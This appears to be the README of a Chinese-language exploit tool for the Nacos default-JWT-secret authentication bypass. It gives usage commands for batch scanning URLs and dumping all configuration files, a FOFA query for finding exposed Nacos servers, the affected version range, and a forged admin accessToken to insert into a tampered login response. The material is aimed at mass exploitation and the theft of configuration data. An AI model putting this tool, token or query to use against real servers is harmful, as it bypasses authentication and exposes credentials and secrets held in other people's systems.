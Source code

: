 # Nacos JWT 硬编码登陆

https://github.com/alibaba/nacos/issues/9830

# 0x0x do what?

- [x] 读取 url.txt 文件，批量验证 Nacos JWT 漏洞
  - [x] 支持url，或者直接输入 host、ip 重定向
- [x] 获取全部配置文件信息，存储在 output 目录中
  - [x] 使用默认 accessToken，即使不存在漏洞也可通过 -t 指定token实现配置文件的提取
- [x] 解析配置文件的轮子
  - [x] 提取期望 key，新增直接添加到 niceKey 数组
    - [x] 解析 yaml、yml 文件
    - [ ] json、 properties、无后缀的遇到再加，目前只简单处理

## 使用

```python
# 指定 url，必须为nacos服务的路径
python3.8 -u http://ip/nacos

# 文件中读取
python3.8 -uf url.txt

# 无漏洞，登陆后指定 token 读配置
python3.8 -u http://ip/nacos -t {token}
```



效果图

![image-20230531231729266](attachments/image-20230531231729266.png)

# 0x00 概述

## 漏洞描述

Nacos 提供了一组简单易用的特性集，帮助您快速实现动态服务发现、服务配置、服务元数据及流量管理。若您Nacos未修改 secret.key，则攻击者可利用默认secret.key生成JWT Token，从而造成权限绕过访问到相关API接口。

## 影响范围

0.1.0<=com.alibaba.nacos:nacos-console<2.2.0.1

# 0x01 环境

fofa

```
app="NACOS" 
```

# 0x02 复现

抓取登陆包，修改响应包状态码和 body

```json
{
"accessToken":
"eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTY3NTA4Mzg3N30.mIjNX6MXNF3FgQNTl-FduWpsaTSZrOQZxTCu7Tg46ZU","tokenTtl": 18000,
"globalAdmin": true,"username":"nacos"
}
```

![image-20230530101351383](attachments/image-20230530101351383.png)









